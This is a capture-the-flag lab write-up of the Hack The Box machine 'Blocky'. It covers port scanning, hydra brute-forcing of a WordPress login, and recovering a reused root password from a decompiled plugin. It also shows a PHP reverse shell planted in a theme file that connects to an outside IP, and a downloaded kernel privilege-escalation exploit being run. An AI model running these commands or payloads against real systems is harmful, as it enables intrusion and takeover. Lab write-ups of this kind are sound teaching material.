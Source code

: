 # Blocky

```
kali@kali:~/htb/Blocky$ sudo nmap -Pn  10.129.1.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 08:03 EST
Nmap scan report for 10.129.1.53
Host is up (0.028s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos
```

My default -sV and -sC do not work so I do a quick -Pn to see what we're dealing with. If needed I would return to do some more scanning.

I head to the webpage and I’m greeted by blockycraft! And there is a login page. Which differentiates username and password. So I’m gonna try hydra,


```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: Invalid username. Lost your password?" -L /usr/share/wordlists/usernames.txt -p test -I
```

Hydra can be a bit tough to send correctly, I explain it a bit more further down.

While that is running I check out the other options on the site. I click the first article and see a reply field. This might be a cross-site-scripting opportunity.

So let's try a simple XSS to see if it even works:

<script>alert(‘XSS’)</script>. This should create a popup message if it works. But it does not. The comment is simply posted with the <script>’s removed. I tried it on all fields as well, but to no avail. My hydra command has also slowed down a lot. Hmm. 

I decide to run dirbuster. But I don’t really find anything special.

I then remember that there are blog posts, and they probably include usernames… duh.

So we get a username “Notch”

I try hydra again: 

```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: The password you entered for the username Notch is incorrect. Lost your password?" -l Notch -P /usr/share/wordlists/rockyou.txt -I -V
```

In order to craft a good hydra command, you need to inspect the target login form, and use the values there. "log" was the form name of the username, "pwd" for the password etc.
I also had to escape the `:` in the fail message with a backslash. small L: -l means username. -L means username list. And the same for passwords -p means password and -P means password list. -I makes it so hydra does not resume from a previous run, and -V just means verbose.

Also my dirbuster is not working well, it is just running into empty links. So I’m gonna try Wfuzz and only looking for directories.

``` 
kali@kali:~/htb/Blocky$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.53/FUZZ
```

-c outputs with colors

--hc=404 filters out 404 response pages

-w selects what wordlist to use


And Wfuzz finds a directory called plugins. So let's see if we find anything there. Note that my hydra is still running in the BG trying to find a password.

![](images/1.png)

We got something interesting here. Some java files, which is what is used for minecraft mods. Let’s see if we can find some interesting stuff. 

I decompress it with
```
kali@kali:~/htb/Blocky$ unzip BlockyCore.jar -d Blockycore
Archive:  BlockyCore.jar
  inflating: Blockycore/META-INF/MANIFEST.MF  
  inflating: Blockycore/com/myfirstplugin/BlockyCore.class  
```
-d specifies a directory to unzip files

So now we can try to decompile it:

```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ javap -c  BlockyCore.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}

```

That third string is interesting. `8YsqfCTnvxAUeduzjNSXe22`

I try it with Notch in the login page, but it does not work. However ssh was open in the ports. So lets try that:


```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh Notch@10.129.1.53
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 

kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
/usr/bin/xauth:  file /home/notch/.Xauthority does not exist
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Here we can see the importance of always trying both lower and uppercase. And we can see that notch is already a sudo user. So let's try to log in as root:

```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 
```

Great!

Although I am sad that hydra did not work.


## Comparing myself to the official writeup:

The official writeup an nmap with -T4 -A  and it revealed that minecraft was also running on port 25565. 

They ran into the same dirbusting issues I found. With php busting not working well on wordpress sites. They switched to directories only. As I did, although I used wfuzz and they kept using dirbuster.

They decompile the java files with JD-GUI. And found the credentials. And logged on with ssh. Used `sudo -i` to get root.

However they also pointed out a PhPAdmin route after finding the credentials in the java files.

So I decide to try that out at the end of this writeup.

## How to stop this exploit:

Very bad idea to keep plaintext credentials. And an even worse idea to keep it publicly available like this. And an even worse idea than that, to reuse that password as the root password of the machine. This is a cool example of an entirely user based mistake. As the user gave away the password. You could say that ssh could be turned off. But the biggest mistake here is clearly the plaintext public password reuse.


# Secondary foothold:

I navigate to 10.129.1.53/phpmyadmin

And log in with root:8YsqfCTnvxAUeduzjNSXe22 As found in the java files.

And go to the wordpress database:

![](images/2.png)

And click edit:

![](images/3.png)

We just set the user_pass to MD5 and enter our password:

![](images/4.png)

I press Go and login with Notch:DontReusePasswords on 10.129.1.53/wp-login. And I’m greeted with the admin panel:

![](images/5.png)

Now I’m mostly looking for somewhere to upload a php file as a reverse shell.

I go to Appearance->Editor in the wp-admin panel and add

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

To the top of the header.php template. Set up a listener and enter the page in browser:

```
kali@kali:~$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.53 41360
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html$ whoami
whoami
www-data
www-data@Blocky:/var/www/html$ 
```

I downloaded and compiled this: https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c 

Compiled with: `kali@kali:~/htb/Blocky$ gcc -o poc poc.c`

I set up a webserver to download it:

```
kali@kali:~/htb/Blocky$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

And download it on the target:

```
www-data@Blocky:/var/www/html$ wget 10.10.14.21:8000/poc
wget 10.10.14.21:8000/poc
--2021-01-25 12:03:46--  http://10.10.14.21:8000/poc
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23768 (23K) [application/octet-stream]
Saving to: 'poc'

     0K .......... .......... ...                             100%  797K=0.03s

2021-01-25 12:03:46 (797 KB/s) - 'poc' saved [23768/23768]

www-data@Blocky:/var/www/html$ 
```

I followed this up with chmod 777 to get execute permissions, and ran it:

```
www-data@Blocky:/var/www/html$ chmod 777 poc
chmod 777 poc
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
```

And I did get root, but I think the machine crashed… As nothing responded. And I tried pinging, unreachable… So I tried resetting the box and having another go.

```
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1698): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
whoami
root
```

There we go! Awesome. Two cool ways of doing this box. Some good experience with phpmyadmin and Wordpress, and a new root exploit.

The dccp_rcv_state_process function in net/dccp/input.c mishandles DCCP_PKT_REQUEST packet data structures in the LISTEN state. This allows local users to obtain root privileges by using an application that makes an IPV6_RECVPKTINFO setsockopt system call.

This can be fixed by updating to the latest linux release.
